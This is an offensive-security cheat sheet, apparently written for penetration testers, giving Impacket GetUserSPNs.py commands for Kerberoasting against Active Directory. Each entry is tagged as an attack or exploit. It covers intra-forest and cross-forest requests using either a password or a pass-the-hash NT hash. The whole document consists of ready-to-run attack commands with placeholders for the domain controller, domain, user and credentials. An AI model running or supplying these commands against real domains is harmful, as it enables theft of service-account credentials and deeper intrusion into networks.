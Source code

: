 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting - intra forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```


## kerberoasting (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> -hashes :<nt_hash> '<domain>/<user>'
```

## kerberoasting - cross forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <dst_domain_fqdn> '<domain>/<user>:<password>'
```


## kerberoasting - cross forest (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <dst_domain_fqdn> -hashes :<nt_hash> '<domain>/<user>'
```